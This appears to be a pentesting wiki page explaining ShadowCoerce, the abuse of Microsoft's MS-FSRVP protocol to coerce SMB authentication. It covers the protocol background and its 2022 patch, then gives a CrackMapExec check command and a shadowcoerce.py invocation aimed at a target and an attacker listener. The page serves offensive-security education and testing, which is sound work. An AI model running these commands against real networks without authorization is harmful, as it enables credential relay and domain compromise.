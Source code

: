 # MS-FSRVP abuse (ShadowCoerce)

## Theory

MS-FSRVP is Microsoft's File Server Remote VSS Protocol. It's used for creating shadow copies of file shares on a remote computer, and for facilitating backup applications in performing application-consistent backup and restore of data on SMB2 shares ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)). That interface is available through the `\pipe\FssagentRpc` SMB named pipe.

In late 2021, [Lionel GILLES](https://twitter.com/topotam77) published [slides](https://twitter.com/topotam77/status/1475701014204461056) showcasing [PetitPotam](ms-efsr.md) and demonstrating the possibility of abusing the protocol to coerce authentications on the last two slides.

Similarly to other MS-RPC abuses, this works by using a specific method relying on remote UNC paths. In this case, at the time of writing, two methods were detected as vulnerable: `IsPathSupported` and `IsPathShadowCopied`.

**The coerced authentications are made over SMB**. Unlike other similar coercion methods (MS-RPRN printerbug, MS-EFSR petitpotam), I doubt MS-FSRVP abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP.

A requirement to the abuse is to have the "File Server VSS Agent Service" enabled on the target server.

<figure><img src="../../../.gitbook/assets/Screenshot from 2021-12-29 16-20-12.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
In June 2022, Microsoft patched [CVE-2022-30154](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-30154) in [KB5014692](https://support.microsoft.com/en-us/topic/kb5015527-shadow-copy-operations-using-vss-on-remote-smb-shares-denied-access-after-installing-windows-update-dated-june-14-2022-6d460245-08b6-40f4-9ded-dd030b27850b), which also patched this coercion attack.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Enumerate" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to check if the target is vulnerable to ShadowCoerce.

```bash
crackmapexec smb <TARGET> -u <USER> -p <PASSWORD> -M shadowcoerce
```
{% endtab %}

{% tab title="Exploit" %}
The following Python proof-of-concept ([https://github.com/ShutdownRepo/ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce)) implements the `IsPathSupported` and `IsPathShadowCopied` methods.

{% hint style="success" %}
**Nota bene**: for the proof of concept to work, using a proper security provider (`RPC_C_AUTHN_WINNT`) and authentication level (`RPC_C_AUTHN_LEVEL_PKT_PRIVACY`) can required. It is enabled by default in the script.
{% endhint %}

```bash
shadowcoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```
{% endtab %}
{% endtabs %}

## Resources

Topotam's tweet: [https://twitter.com/topotam77/status/1475701014204461056](https://twitter.com/topotam77/status/1475701014204461056)

Topotam's slides: [https://fr.slideshare.net/LionelTopotam/petit-potam-slidesrtfmossir](https://fr.slideshare.net/LionelTopotam/petit-potam-slidesrtfmossir)

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b" %}

{% embed url="https://blog.compass-security.com/2020/05/relaying-ntlm-authentication-over-rpc" %}
Understand RPC better
{% endembed %}

